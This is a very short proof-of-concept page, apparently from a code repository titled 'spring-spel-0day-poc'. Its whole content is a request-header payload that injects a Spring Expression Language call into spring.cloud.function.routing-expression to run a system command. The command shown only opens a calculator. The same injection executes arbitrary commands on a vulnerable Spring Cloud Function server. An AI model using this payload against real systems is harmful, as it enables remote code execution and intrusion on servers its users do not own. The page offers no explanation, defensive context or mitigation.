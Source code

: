 # spring-spel-0day-poc

```
request header
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("open -a calculator.app")
```
